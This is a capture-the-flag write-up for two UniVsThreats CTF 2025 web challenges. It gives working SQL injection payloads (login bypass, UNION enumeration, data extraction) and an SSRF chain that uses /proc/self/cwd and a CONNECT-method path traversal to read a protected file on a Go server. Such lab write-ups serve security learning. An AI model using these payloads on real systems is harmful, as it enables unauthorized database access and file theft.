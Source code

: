 # UniVsThreats CTF 2025

## Table of Contents
- [error=-303](#error-303)
- [internal_Verbs Challenge](#internal_Verbs)

## error=-303
>You don’t ask for access. You carve it out.

The challenge was a classic SQLi challenge. 
It start with login form where usually can be bypass with Boolean-Based SQLi by make it always true.
```
' or '1'='1' -- -
```

After successfully bypass the login, it redirect to search product page. Here I tried to search with input ‘a’ however it show no product found. So I think it need to give full name of the product to show output.
Next I try Union-Based SQLi since it like past ctf challenge. So try to find the number of columns by increase number of NULL and also the active database until show output.
```
' UNION SELECT NULL, NULL, NULL, DATABASE() -- -
```

![find database](https://github.com/user-attachments/assets/d5633e9a-c71e-46d2-8712-3964713cf9e6)

Then after found the database name with 4 column we enumerate the tables:
```
' UNION SELECT table_name, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = DATABASE() -- -
```
![get table](https://github.com/user-attachments/assets/1167d881-94a4-4bab-9965-9459cf6f6c0b)

We discovered that it contain 2 table which one that seem have the flag is "secrets"
Next, we start enumerate the colums in the secrets table:
```
' UNION SELECT column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='secrets' AND table_schema = DATABASE() -- -
```
![column secrets table](https://github.com/user-attachments/assets/dae60324-8965-40b5-ad5e-3f77667dc94b)

The table contains 2 columns: "flag" and "id". We extract the flag with
```
' UNION SELECT NULL, flag, NULL, NULL FROM secrets -- -
```
![get the first flag](https://github.com/user-attachments/assets/5b3ab5e2-a2a3-4b50-918e-bd7b7dd193ac)

First part of the flag is obtained!

For the next part of the flag we enumerate other table but not found and go enumerate other available database:
```
' UNION SELECT NULL, schema_name, NULL, NULL FROM information_schema.schemata -- -
```
![AVAILABLE DATABASE](https://github.com/user-attachments/assets/d09c872d-5e1f-4620-a2dc-7d235328f9bc)

We found database named "password_reset"
So same as earlier method we enumerate the table and column and retrieve the second part of the flag.
There is "users" table only and there are many column so among multiple columns, we look for ones most likely to store a flag.
![flag](https://github.com/user-attachments/assets/1a1a23f5-d2c4-4116-af7e-d10d4f38d71c)

```
UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._S0_5tR1ng5_4r3_m0r3_tHaN_qu3r13s_1n_th3_3nd}
```

## internal_Verbs
>You've found an internal administration server exposed to the internet. It looks simple at first, but certain sensitive endpoints require proper authorization to access.
>Explore the server carefully — not everything responds the same way to every verb.
>Can you bypass the restrictions and retrieve the hidden flag?

The File structure:

```
mv /server /tmp/$RAND_DIR/
mv /public /tmp/$RAND_DIR/
mv /flag.txt /tmp/$RAND_DIR/flag_$RAND_DIR.txt
```

The challenge provide code to review. From the code we found endpoint available

```
	http.HandleFunc("/admin", handlers.AdminHandler)
	http.HandleFunc("/", handlers.HomeHandler)
	http.HandleFunc("/about", handlers.AboutHandler)
	http.HandleFunc("/request/", handlers.RequestHandler)
	http.HandleFunc("/whoami", handlers.UserHandler)
	http.HandleFunc("/disk", handlers.DiskHandler)
	http.HandleFunc("/list/", handlers.ListHandler)
	http.HandleFunc("/view/", handlers.ViewHandler)
	http.HandleFunc("/link", handlers.LinkHandler)
```
The admin, list and view and link need to be from local host :
```
return strings.HasPrefix(host, "127.0.0.1") || strings.HasPrefix(host, "[::1]") || strings.HasPrefix(host, "localhost:")
```
and then must has the authorization header where we just add ad request using burpsuite
```
if authHeader != "Bearer YWRtaW46YWRtaW4=" {
```

So to make our request to be from local host we use SSRF vulnurabliti which can be use on request endpoint

```
targetURL = decodedTarget
...
req, err := http.NewRequest(method, targetURL, nil)
...
resp, err := client.Do(req)
```
the request handler take value after /request/ and  URLdecode it and if not whoami or disk it set it as target url and make a request to it.

So from this we can bypass the local host condition.

Then we try to /list endpoint where it can list all file inside public but not other folder.
Then we try to view notes.txt inside the public folder it open and show the content.
Next, try path traversal to read outside of public folder since the /view endpoint it append our input to ./public/
```
cleanPath := "./public/" + filepath.Clean(path)
```
and the filepath.Clean(path) make our path traversal fails since it remove the ../

however there is something i forgot which is the most importand part before we can read the flag which is find the dir name.
```
mv /flag.txt /tmp/$RAND_DIR/flag_$RAND_DIR.txt
```
to be able to read the flag we need to fund the rand_dir name. Here we take a look on other endpoint and found that /link endpoint enable to use /proc/self. so from /proc/self/cwd we can get current working directory
```
/request/http%3A%2F%2F127.0.0.1%3A40048%2Flink%3Fpath%3D%2Fproc%2Fself%2Fcwd
```
```
Resolved path: /tmp/dwN7SbNEMGyC
```

so the flag path will be : /tmp/dwN7SbNEMGyC/flag_dwN7SbNEMGyC.txt

ok now we got the name of the flag but i try to view it but failed 
maybe because of filepath.Clean (which clean the ../ but the value must start with / or \ to be effective) and r.URL.Path (make the value contain / in at the start) [Golang Traversla](https://rowin.dev/blog/preventing-path-traversal-attacks-in-go)

```
Cannot stat file: ..\flag_dwN7SbNEMGyC.txt
```
So until end of the ctf cannot get the flag. 
so after the ctf they say that we can use CONNECT which can avoid the canonicalization. [Golang Hacktrick](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/golang)

```
CONNECT /request/http:%2f%2f127.0.0.1:40048/view/../flag_dwN7SbNEMGyC.txt?method=CONNECT HTTP/1.1
```

the flag: ``` UVT{4ft3r_a_l0t_0f_st3ps_1t_y0u_f1nally_g0t_th3_fl4g_CONGR4TZZZZ} ```

## Conclusion
The challenge is nice even though just 2 challenge I do and solved and the sql challenge is same like CyberXCTF challenge but the ssrf challenge is the first time I solve it. 
Past ctf challenge there is ssrf challenge and localhost condition but i cannot bypass it but this ctf I manage which show a little improvement.
